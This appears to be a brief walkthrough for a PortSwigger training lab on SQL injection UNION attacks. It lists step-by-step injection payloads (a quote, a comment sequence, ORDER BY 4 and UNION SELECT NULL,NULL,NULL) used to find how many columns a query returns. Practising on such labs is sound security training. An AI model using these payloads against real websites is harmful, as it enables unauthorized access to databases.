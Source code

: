 # SQL injection UNION attack, determining the number of columns returned by the query
https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns

Step - 1
-
`'`</br>
Error > Single Quotes

Step - 2
-
`'--`</br>
No MySQL

Step - 3
-
`' ORDER BY 4--`</br>
Error > 3 Column

Step - 4
-
`' UNION SELECT NULL,NULL,NULL--`
